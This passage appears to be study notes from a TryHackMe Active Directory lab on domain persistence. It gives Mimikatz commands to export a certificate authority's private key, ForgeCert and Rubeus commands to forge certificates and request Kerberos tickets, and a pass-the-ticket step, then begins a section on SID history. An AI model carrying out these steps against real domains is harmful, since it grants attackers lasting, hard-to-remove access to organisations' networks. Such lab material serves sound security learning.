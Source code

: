 `dir \\thmserver1.za.tryhackme.loc\c$\` - Verify the silver ticket is working.
## Persistence through Certificates

**The next techniques are very dangerous and hard to remove, thy will probably cause a full domain rebuild.**

##### The Return of AD CS

A valid certificate can be used for client authentication which will allow us to use the certificate to request a TGT, unless revoked or expired we will have access in roughly the next 5 years.

We could steal to key of the root CA's certificate to generate our own certificates whenever we want, the blue team would have to revoke the certificates of all account in order to take back control.

##### Extracting the Private Key

If the private key stored on the CA server is not protected trough hardware based protection like Hardware Security Module (HSM), which is often the case for organizations that just use AD CS for internal purposes that protect with Data Protection API (DPAPI), so we can use tools like Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA.

`crypto::certificates /systemstore:local_machine` - From Mimikatz, view the certificates stored on the DC.
`privilege::debug`
`crypto::capi` and `crypto::cng` - Patch those services, to be able to export the certificates.
`crypto::certificates /systemstore:local_machine /export` - Export the certificates, they will be saved in PFX and DER format.

By default Mimikatz would assign the password of `mimikatz` to the certificates.

##### Generating our own Certificates

With the private key and root CA certificate we can use the SpecterOps [ForgeCert](https://github.com/GhostPack/ForgeCert) tool to forge a client authentication certificate for an user we want.

`<ForgeCert.exe file location> --CaCertPath <The path to the exported .pfx certificate> -CaCertPassword <the password to encrypt the certificate> --Subject CN=<the subject or the common name of the certificate (doesn't matter)> --SubjectAltName <The user principle name (UPN) of the account we want to impersonate, has to be legitimate> --NewCertPath <The path to store the certificate> --NewCertPassword <new password to encrypt the private key>` - Generate a new certificate.

`<Rubeus.exe file location> asktgt /user:<user to impersonate> /enctype:aes256 /certificate:<path to the certificate we generated> /password:<password for certificate file> /outfile:<the .kirbi file where the tgt will be outputed to> /domain:<the FQDN of the domain we are currently attacking> /dc:<the IP of the DC we are requesting the ticket for, best is one that runs CA>` - Request a TGT using the certificate.

`kerberos::ptt <.kirbi file>` - Use Mimikatz to load the TGT.

## Persistence through SID History

SIDs are used to track the security principle and the account's access when connecting to resources, there is an interesting attribute called SID history.

SID history is used to clone accounts, when migrating to a new domain the user will get a new SID but the existing one will be put in the SID history, giving him access to the previous domain.
